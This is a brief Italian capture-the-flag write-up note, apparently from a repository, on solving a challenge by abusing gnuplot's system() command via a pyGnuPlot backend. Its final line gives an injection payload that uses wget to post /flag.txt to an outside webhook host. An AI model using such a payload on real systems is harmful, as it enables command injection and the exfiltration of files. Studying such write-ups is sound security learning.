 - Provando a giocare con l'applicazione ho notato che il nome del file che viene generato si chiama pyGnuPlot --> è l'unica informazione utilie per la risoluzione della challeng
- L'informazione chiave successiva non ho capito come reperirla
	- Ho trovato un write up con la soluzione, senza non ci sarei mai arrivato
	- http://gnuplot.info/docs/loc2005.html 
	- gnuplot accetta l'esecuzone di comandi tramite system
	- da qui l'inj è facile `system("wget --post-file /flag.txt https://webhook.site/304b9e35-9408-47f6-a57e-a19ca61a9a0f")`